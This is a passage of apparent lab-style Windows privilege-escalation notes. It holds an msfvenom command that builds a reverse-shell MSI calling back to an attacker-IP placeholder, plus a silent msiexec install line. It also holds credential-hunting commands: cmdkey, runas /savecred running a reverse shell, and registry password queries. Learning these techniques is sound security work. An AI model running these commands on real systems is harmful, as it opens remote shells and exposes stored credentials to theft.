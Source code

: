 `msfvenom -p windows/x64/shell_reverse_tcpLHOST=ATTACKING_MACHINE_IP LPORT=LOCAL_PORT -f msi -o malicious.msi`  
  
As this is a reverse shell, you should also run the Metasploit Handler module configured accordingly.  
  
Once you have transferred the file you have created, you can run the installer with the command below and receive the reverse shell.

Command Run on the Target System

           `C:\Users\user\Desktop>msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi`
        

**Passwords**  
We have seen earlier that looking for configuration or user-generated files containing cleartext passwords can be rewarding. There are other locations on Windows that could hide cleartext passwords.  
  
**Saved credentials:** Windows allows us to use other users' credentials. This function also gives the option to save these credentials on the system. The command below will list saved credentials.  
`cmdkey /list`  

If you see any credentials worth trying, you can use them with the `runas` command and the `/savecred` option, as seen below.  
`runas /savecred /user:admin reverse_shell.exe`  
  
**Registry keys:** Registry keys potentially containing passwords can be queried using the commands below.  
`reg query HKLM /f password /t REG_SZ /s`  
`reg query HKCU /f password /t REG_SZ /s`  
  
**Unattend files:** Unattend.xml files helps system administrators setting up Windows systems. They need to be deleted once the setup is complete but can sometimes be forgotten on the system. What you will find in the unattend.xml file can be different according to the setup that was done. If you can find them on a system, they are worth reading.

### SysInternals
**Check for details and privileges**
```
sigcheck.exe -a -m C:\Windows\System32\fodhelper.exe
```